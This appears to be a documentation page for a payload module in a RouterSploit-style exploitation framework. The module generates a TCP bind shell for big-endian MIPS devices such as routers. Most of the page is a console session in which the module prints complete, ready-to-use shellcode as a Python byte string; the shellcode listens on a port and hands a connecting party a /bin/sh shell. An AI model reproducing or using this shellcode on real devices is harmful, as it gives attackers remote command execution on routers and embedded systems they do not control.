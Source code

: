 ## Description

Module generates payload that creates interactive tcp bind shell for MIPSBE architecture.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/mipsbe/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates mipsbe bind shell tcp payload

## Scenarios

```
rsf > use payloads/mipsbe/bind_tcp
rsf (MIPSBE Bind TCP) > set rport 4321
[+] rport => 4321
rsf (MIPSBE Bind TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x27\xbd\xff\xe0\x24\x0e\xff\xfd\x01\xc0\x20\x27\x01\xc0\x28"
    "\x27\x28\x06\xff\xff\x24\x02\x10\x57\x01\x01\x01\x0c\x30\x50"
    "\xff\xff\x24\x0e\xff\xef\x01\xc0\x70\x27\x24\x0d\xff\xfd\x01"
    "\xa0\x68\x27\x01\xcd\x68\x04\x24\x0e\x10\xe1\x01\xae\x68\x25"
    "\xaf\xad\xff\xe0\xaf\xa0\xff\xe4\xaf\xa0\xff\xe8\xaf\xa0\xff"
    "\xec\x02\x10\x20\x25\x24\x0e\xff\xef\x01\xc0\x30\x27\x23\xa5"
    "\xff\xe0\x24\x02\x10\x49\x01\x01\x01\x0c\x02\x10\x20\x25\x24"
    "\x05\x01\x01\x24\x02\x10\x4e\x01\x01\x01\x0c\x02\x10\x20\x25"
    "\x28\x05\xff\xff\x28\x06\xff\xff\x24\x02\x10\x48\x01\x01\x01"
    "\x0c\xaf\xa2\xff\xff\x24\x11\xff\xfd\x02\x20\x88\x27\x8f\xa4"
    "\xff\xff\x02\x20\x28\x21\x24\x02\x0f\xdf\x01\x01\x01\x0c\x24"
    "\x10\xff\xff\x22\x31\xff\xff\x16\x30\xff\xfa\x28\x06\xff\xff"
    "\x3c\x0f\x2f\x2f\x35\xef\x62\x69\xaf\xaf\xff\xec\x3c\x0e\x6e"
    "\x2f\x35\xce\x73\x68\xaf\xae\xff\xf0\xaf\xa0\xff\xf4\x27\xa4"
    "\xff\xec\xaf\xa4\xff\xf8\xaf\xa0\xff\xfc\x27\xa5\xff\xf8\x24"
    "\x02\x0f\xab\x01\x01\x01\x0c"
)
```
